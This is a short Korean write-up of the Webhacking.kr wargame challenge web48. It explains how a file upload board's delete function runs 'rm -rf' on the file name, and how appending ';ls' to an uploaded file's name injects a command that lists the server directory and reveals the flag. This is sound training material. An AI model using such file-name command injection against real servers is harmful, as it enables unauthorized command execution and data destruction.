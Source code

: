 ```yaml
---
title : "Webhacking.kr - web48 (풀이봄)"
categories : [Wargame, Webhacking.kr]
tags: [풀이 봄]
---
```


## web48
<hr style="border-top: 1px solid;"><br>

파일, 게시글을 올리는 게시판이 있음.

파일을 올리면 upload file이 있는데 경로를 확인해보니 ```/upload/test.txt```이며, 들어가면 파일 내용이 나옴.

게시글을 삭제하면 ```?mode=del&time=1632207021``` 이런식으로 전송이 됨.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

delete를 하면 파일이 지워지는데 이 때 사용되는 명령어는 ```rm -rf``` 일 것임.

```rm -rf``` 파일명 이 서버에서 실행될 것임. 

따라서 ```파일명;ls```를 실행시켜주면 되기 때문에, 파일명에 ```;ls```를 붙여서 올린 뒤 삭제하면 아래와 같이 나오게 됨.

<br>

```
1.jpg 2.jpg 3.jpg 4.jpg 5.jpg 6.jpg 7.jpg 8.jpg 
FLAG{i_think_this_chall_is_cool} 
config.php index.php upload 

file deleted. go back
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
